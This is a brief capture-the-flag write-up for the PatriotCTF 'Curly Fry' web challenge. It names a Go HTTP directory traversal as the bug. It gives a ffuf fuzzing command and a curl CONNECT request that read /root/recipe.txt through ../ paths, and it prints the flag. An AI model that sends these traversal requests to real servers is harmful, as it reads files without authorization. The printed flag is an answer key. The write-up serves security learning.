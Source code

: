 # Curly Fry


## The Problem

Points: 500

Rating:

Author:

Flavor Text:
```

chal2.pctf.competitivecyber.club:49535



```

Attachments : [Curly%20Fry.html](Curly%20Fry.html)

## Solution

I was unable to complete this chal but did manage to work out that it was a directory traversal issue with the golang http lib but I wasnt able to work out the directory structure. 

https://github.com/NihilistPenguin/PatriotCTF2022-Writeups/blob/main/Web/CurlyFry.md

NihilistPenguin posted a good method of fuzing the directory 

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://localhost/../../../../../../../root/FUZZ -e .txt -X CONNECT -c -fs 50

```

that leads to a connect request like: 

curl --path-as-is -X CONNECT http://localhost/../../../../../../../root/recipe.txt


## Flag
```
PCTF{tru5t_m3_im_4_ch3f}
```

## Final Notes
